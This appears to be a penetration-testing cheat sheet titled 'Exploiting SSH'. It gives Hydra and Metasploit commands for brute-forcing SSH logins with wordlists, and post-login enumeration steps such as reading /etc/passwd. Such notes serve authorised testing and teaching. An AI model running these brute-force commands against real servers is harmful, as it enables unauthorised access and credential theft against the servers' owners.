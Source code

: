 # Exploiting SSH
> SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet. SSH is typically used for remote access to servers and system. 

SSH Default Port: `22`

## Contents
- [Intro](#)
- [Hydra: Brute Force](#)
- [MetaSploit](#)
  - [SSH Version Info](#)
  - [SSH Login: Brute Force](#)

## Intro

- SSH used TCP port 22 by default, however (like many other services) it can be configured to use any other open TCP port.
- SSH authentication can be configured in two ways:
  - Username and password authentication
    - Therefore, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.
  - Key-based authentication (no username/password)
    - The user's public key is copied to the server
    - The user's private key is used to login

## [Hydra](../../hydra.md): Brute Force
```
hydra -L /usr/share/.../common_users.txt -P /usr/share/.../unix_passwords.txt -t 4 ssh://[target ip]
or
hydra -L /usr/share/.../common_users.txt -P /usr/share/.../unix_passwords.txt -t 4 [target ip] ssh
```
- `-t 4` : Limits the number of threads so you don't DoS the SSH server.
- If this gets you logins, try them out: 
```
ssh [remote_username]@[remote_host]
```
- Then enumerate basic info: `whoami`, `groups sysadmin`, `cat /etc/*issue`, `uname -r`, `cat /etc/passwd`

## MetaSploit

### SSH Version Info
```
> use auxiliary/scanner/ssh/ssh_version
```
- Use the results to Google around and see if the version is vulnerable.

### SSH Login: Brute Force
```
> use auxiliary/scanner/ssh/ssh_login
```
- username dictionary (one of many): /usr/share/metasploit-framework/data/wordlists/common_users.txt
- password dctionary (one of many): /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
- If MSF finds login cred pairs, it will use them to open sessions on each one it finds.
